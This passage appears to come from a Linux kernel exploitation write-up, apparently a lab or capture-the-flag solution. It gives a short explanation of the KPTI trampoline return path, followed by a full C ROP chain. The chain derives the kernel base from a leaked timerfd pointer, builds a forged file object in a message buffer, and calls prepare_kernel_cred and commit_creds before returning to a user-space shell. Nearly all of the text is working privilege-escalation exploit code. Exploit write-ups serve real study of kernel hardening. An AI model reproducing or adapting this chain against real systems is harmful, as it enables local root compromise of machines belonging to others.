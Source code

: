 > there must be a piece of code in the kernel that will swap the page tables back to the userland ones

What is this code? the function swapgs_restore_regs_and_return_to_usermode + 22 (first mov) which will perform the task.

The ROP chain:

```
uint64_t timerfd_tmrproc = *(uint64_t *) &leak[0x110];
uint64_t kernel_base = timerfd_tmrproc - 0x3db850;
uint64_t chunk = *(uint64_t *) &leak[0x178] - 0x190;

printf("[+] kernel base: 0x%lx\n", kernel_base);
printf("[+] heap payload: 0x%lx\n", chunk);

uint64_t rip = kernel_base + 0xbe00b5;				// push rdi ; .. ; pop rsp ; pop r13 ; pop rbp ; ret
uint64_t add_rsp = kernel_base + 0x1b1f1e;			// add rsp, 0x70 ; pop rbx ; pop r12 ; pop rbp ; ret
uint64_t pop_rdi = kernel_base + 0x5eb4b3;			// pop rdi ; .. ; ret
uint64_t prepare_kernel_cred = kernel_base + 0xf3c30;		// prepare_kernel_creds
uint64_t commit_creds = kernel_base + 0xf39c0;			// commit_creds
uint64_t kpti_trampoline = kernel_base + 0xe00fb0 + 22;		// swapgs_restore_regs_and_return_to_usermode + 22

/* Save registers */
save_state();

/* The final buffer with ROP */
memset(&message_w, 0, sizeof(message_w));
message_w.type = MTYPE_SECOND;
*(uint64_t *) &message_w.text[BEGIN_OBJ + 8] = chunk + 0x400;			// rbp
*(uint64_t *) &message_w.text[BEGIN_OBJ + 16] = add_rsp;			// add rsp, 0x70
*(uint64_t *) &message_w.text[BEGIN_OBJ + 40] = chunk;				// fops
*(uint64_t *) &message_w.text[BEGIN_OBJ + 56] = 1;				// f_count
*(uint64_t *) &message_w.text[BEGIN_OBJ + 120] = rip;				// rip
*(uint64_t *) &message_w.text[BEGIN_OBJ + 136] = 0;				// 
*(uint64_t *) &message_w.text[BEGIN_OBJ + 144] = 0;				// 
*(uint64_t *) &message_w.text[BEGIN_OBJ + 152] = chunk + 0x400;			// rbp
*(uint64_t *) &message_w.text[BEGIN_OBJ + 160] = pop_rdi;			// pop_rdi
*(uint64_t *) &message_w.text[BEGIN_OBJ + 168] = 0;				// arg
*(uint64_t *) &message_w.text[BEGIN_OBJ + 176] = prepare_kernel_cred;		// prepare_kernel_cred
*(uint64_t *) &message_w.text[BEGIN_OBJ + 184] = commit_creds;			// commit_creds
*(uint64_t *) &message_w.text[BEGIN_OBJ + 192] = kpti_trampoline;		// swapgs_restore_regs_and_return_to_usermode + 22
*(uint64_t *) &message_w.text[BEGIN_OBJ + 200] = 0;				// dummy rax
*(uint64_t *) &message_w.text[BEGIN_OBJ + 208] = 0;				// dummy rdi
*(uint64_t *) &message_w.text[BEGIN_OBJ + 216] = (uint64_t) shell;		// shell
*(uint64_t *) &message_w.text[BEGIN_OBJ + 224] = user_cs;			// user_cs
*(uint64_t *) &message_w.text[BEGIN_OBJ + 232] = user_rflags;			// user_rflags
*(uint64_t *) &message_w.text[BEGIN_OBJ + 240] = user_sp & 0xffffffffffffff00;	// user_sp
*(uint64_t *) &message_w.text[BEGIN_OBJ + 248] = user_ss;			// user_ss


```
